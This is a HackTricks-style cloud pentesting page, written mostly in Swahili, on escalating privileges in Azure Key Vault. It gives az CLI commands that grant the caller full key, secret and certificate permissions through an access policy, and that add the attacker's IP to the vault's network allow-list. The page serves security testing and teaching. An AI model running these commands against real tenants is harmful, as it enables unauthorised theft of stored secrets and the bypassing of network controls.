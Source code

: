 # Az - Key Vault Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Key Vault

Kwa maelezo zaidi kuhusu huduma hii angalia:

{{#ref}}
../az-services/az-keyvault.md
{{#endref}}

### `Microsoft.KeyVault/vaults/write`

Mshambuliaji mwenye ruhusa hii ataweza kubadilisha sera ya vault ya funguo (vault ya funguo lazima itumie sera za ufikiaji badala ya RBAC).
```bash
# If access policies in the output, then you can abuse it
az keyvault show --name <vault-name>

# Get current principal ID
az ad signed-in-user show --query id --output tsv

# Assign all permissions
az keyvault set-policy \
--name <vault-name> \
--object-id <your-object-id> \
--key-permissions all \
--secret-permissions all \
--certificate-permissions all \
--storage-permissions all
```
### Modify Network Restrictions

Inaweza kuwa nawezo wa kuwa na ruhusa ya kutosha kufikia data nyeti (kama vile thamani ya siri) lakini huwezi kuifikia kwa sababu vault ya funguo imewekwa mipaka kwa mtandao maalum. Ikiwa una ruhusa ya kubadilisha mipaka ya mtandao unaweza kuongeza IP yako kwenye orodha ya IP zinazoruhusiwa.
```bash
# Get the current network restrictions
az keyvault network-rule list --name <vault-name>

# Add your IP to the list
az keyvault network-rule add --name <vault-name> --ip-address <your-ip>
```
{{#include ../../../banners/hacktricks-training.md}}
